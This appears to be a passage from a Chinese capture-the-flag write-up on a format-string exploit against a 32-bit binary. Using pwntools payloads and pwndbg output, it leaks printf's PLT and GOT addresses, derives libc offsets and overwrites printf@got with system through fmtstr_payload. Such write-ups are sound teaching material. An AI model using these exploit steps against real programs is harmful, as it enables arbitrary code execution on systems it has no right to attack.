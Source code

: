 #### 泄露 got.plt 

和泄露程序 payload 高度相似：

```python
payload = "%9$sskye" + p32(printf_plt)
p.sendline(payload)
# \xff\x25 junk code
p.recvuntil('right:\xff\x25')
printf_got_plt = u32(p.recv(4))
```

**注解：**

为什么接收 'right:\xff\x25' ？

right: 是固定回显，\xff\x25 是无用字节码。实际上 0x8048490 的汇编是这样的：

```shell
pwndbg> pdisass 0x8048490 
 ► 0x8048490 <printf@plt>       jmp    dword ptr [0x804a018] <0xf7e4d670>
 
   0x8048496 <printf@plt+6>     push   0x18
   0x804849b <printf@plt+11>    jmp    0x8048450
# 字节码
pwndbg> x /20wx 0x8048490
0x8048490 <printf@plt>:	0xa01825ff	0x18680804	0xe9000000	0xffffffb0
```

0x8048490 指向是一条跳转 got.plt 指令，我们需要其中跳转的目标地址。\xff\x25 就是跳转指令的字节码，我们就要先接收 2 字节垃圾数据，然后再接收 4 字节的 got.plt 地址。

#### 泄露 printf 函数的地址

构造方法同上，但不需要接收 2 字节垃圾数据：

```python
payload = "%9$sskye" + p32(printf_got_plt)
p.sendline(payload)
p.recvuntil('right:')
printf_got = u32(p.recv(4))
```

#### 泄露 libc 基址& system 地址

题目没有给出 libc 。从泄露出来的 printf@got 去 libcdatabase 查询其他函数偏移。

```
printf:0x00049670
system:0x0003ada0
```

#### 任意写修改 printf@got.plt

```python
payload = fmtstr_payload(7, {printf_got_plt: system_addr})
p.sendline(payload)
```

